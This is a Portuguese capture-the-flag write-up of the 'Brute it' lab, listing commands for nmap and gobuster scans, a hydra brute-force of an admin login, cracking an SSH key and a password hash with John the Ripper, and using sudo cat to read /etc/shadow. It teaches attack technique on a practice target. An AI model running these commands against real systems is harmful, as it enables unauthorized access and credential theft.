









# _**Brute it CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark> e em uma janela separada, o <mark>Gobuster</mark>
> ```bash
> nmap -sV -sS [ip_address]
> ```
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.tx
> ```
  
  

Vamos abrir a página <mark>/admin</mark>  
Temos uma página de login!  
Inspecionando os elementos da página, temos a seguinte mensagem  



## Ganhando acesso
Vamos utilizar o <mark>hydra</mark> para realizar um ataque de força bruta contra o usuário
> ```bash
> hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.180.76 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
> ```


Agora, vamos realizar login com o usuário e senha encontrados 
<mark>Na página, encontramos um link de arquivo e uma flag</mark>  
O arquivo é uma chave RSA  
Copiamos para um arquivo normal  
Para quebrar uma chave RSA, vamos usar o John the Ripper, primeiro convertendo a chave para a ferramenta poder quebrar e depois, usando uma lista de palavras  
> ```bash
> ssh2john [file_name] > file.hash
> ```
> ```bash
> john --wordlist=../rockyou.txt file.hash
> ```
  

Vamos realizar login via ssh  
Primeiro, modificamos as permissões de arquivo  
```chmod 600 hash2```  
Agora, realizamos login
> ```bash
> ssh -i hash2 admin@[ip_address]
> ```
_**Connection closed**_

Vamos tentar com o outro usuário descoberto antes
> ```bash
> ssh -i hash2 john@[ip_address]
> ```


## _**Escalação de privilégios**_
Primeiro, vamos verificar os privilégios de john através do comando ```sudo -l```
  

Após verificar, pesquisa-se no gpt o significado  
O usuário pode utilizar o comando ```/bin/cat``` com privilégios
Vamos buscar o arquivo que estamos procurando através do comando permitido

Para realizar escalação de privilégios, vamos partir da ideia de que podemos usar <mark>/bin/cat</mark>  
Um arquivo importante é <mark>/etc/shadow</mark>, contém senhas. O comando abaixo faz isso
> ```bash
> sudo /bin/cat /etc/shadow
> ```
Podemos ver que a senha para o usuário THM é um hash: $6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ

Vamos usar novamente John the Ripper para quebrá-la
> ```bash
> touch hash3 | echo '$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ' > hash3
> ```
> ```bash
> john --wordlist=../rockyou.txt hash3
> ```


Após, basta logar como _root_ e obter a <mark>root flag</mark> com o comando cat
> ```bash
> cat /root/root.txt
> ```
